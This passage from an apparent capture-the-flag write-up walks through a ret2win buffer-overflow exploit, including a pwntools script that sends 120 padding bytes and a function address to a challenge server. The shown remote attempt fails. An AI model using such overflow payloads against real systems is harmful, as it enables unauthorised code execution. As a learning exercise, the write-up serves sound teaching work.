 We now see that the program doesn't instantly crash and waits for input instead. And as soon as we enter a command we get the output back. This is because of the second `cat` in the `(cat payload; cat)`-command. `cat` with no arguments will just wait for input and also write any output back to us.

Hopefully this demonstration can save someone a lot of issues on the future! Now let's move on.


## Testing The Exploit On The Remote Target

Our remote target:
  - Host: `io.ept.gg`
  - Port: `30009`

Let's modify our `solve.py` script to connect to the remote host instead of running the binary locally:

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('./rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

#io = process('rip')
io = connect("io.ept.gg", 30009)
io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```

Our payload is the same as before and we only have to swap out one line of code to run the exploit on the remote target:

```python
#io = process('rip')
io = connect("io.ept.gg", 30009)
```

Let's try:

```bash
$ python solve.py
[+] Opening connection to io.ept.gg on port 30009: Done
[*] Switching to interactive mode
nope.
$
[*] Got EOF while sending in interactive
BrokenPipeError: [Errno 32] Broken pipe
```
